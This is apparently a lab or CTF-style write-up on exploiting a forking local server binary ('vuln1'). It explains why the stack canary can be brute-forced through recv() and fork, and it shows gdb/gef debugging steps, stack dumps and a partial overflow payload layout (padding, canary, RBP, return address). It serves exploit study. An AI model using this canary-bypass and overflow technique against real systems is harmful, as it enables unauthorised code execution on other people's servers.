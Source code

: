 # Server Fork with recv() - vuln1

fork without execve() child process = canary does not change </br>
recv() = no null terminator '\x00' which makes canary bruteforce possible
```
gef➤  checksec
[+] checksec for 'vuln1'
Canary                        : Yes →  value: 0x4635cf1eaee08a00
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
fork child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible

```
# nc 127.0.0.1 1337
Please enter the message you want to send to admin:
aaaaaaaaaaaaaaaaaaaaabbccc
Done.
```
'vuln1' uses libc.so.6 = libc leak, since the program returns after sending input
stripped = no symbol table, so no 'b main', use starti then set break point with ghidra reference
```
# file vuln1 
vuln1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cc3b330cabc203d0d813e3114f1515b044a1fd4f,
 stripped

# ldd vuln1 
	linux-vdso.so.1 (0x00007ffc2df84000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd437426000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd437603000)

```

starti, then check canary
Need to set detach-on-fork, and follow-fork-mode in order to debug child process


```
gef >

starti
set detach-on-fork off
set follow-fork-mode child
b *0x00005555555555e2
canary
c
```
[https://vagmour.eu/persistence-1/](https://vagmour.eu/persistence-1/)
[]()
[]()

Send Payload (python3):
```
payload = b'a' * 0x34 + b'cccc' 
netcat( '127.0.0.1', 1337 , payload , i  , []  )
```

After sending payload:  (  Canary = 0x4769534786267b00 ) </br>
RBP =  0x00007fffffffe0e0
```
$rax   : 0x39              
$rbx   : 0x0               
$rcx   : 0x00007ffff7ef444d  →  0x6b77fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe0b8  →  0x0000555555555562  →   mov eax, DWORD PTR [rbp-0x14]
$rbp   : 0x00007fffffffe0e0  →  0x00007fffffffe140  →  0x00005555555555f0  →   push r15
$rsi   : 0x00007fffffffe070  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rdi   : 0x4               
$rip   : 0x00005555555555e2  →   ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x0000555555555180  →   xor ebp, ebp
$r13   : 0x00007fffffffe220  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 

gef➤  x/20gx $rsi
0x7fffffffe070:	0x6161616161616161	0x6161616161616161
0x7fffffffe080:	0x6161616161616161	0x6161616161616161
0x7fffffffe090:	0x6161616161616161	0x6161616161616161
0x7fffffffe0a0:	0x6363636361616161	0x4769534786267b00
0x7fffffffe0b0:	0x00007fffffffe0e0	0x0000555555555562
0x7fffffffe0c0:	0x0000000000000002	0x0000000400000000
0x7fffffffe0d0:	0x0000000000000000	0x4769534786267b00
0x7fffffffe0e0:	0x00007fffffffe140	0x00005555555554cf
0x7fffffffe0f0:	0x00007fffffffe228	0x00000001f7e9d745
0x7fffffffe100:	0x0000000000000000	0x0000053900000010

```
![rsi](stack1.jpg "rsi")

so payload = 

```
payload = b'a' * 0x34 + b'cccc' + CANARY + RBP + RETURN
```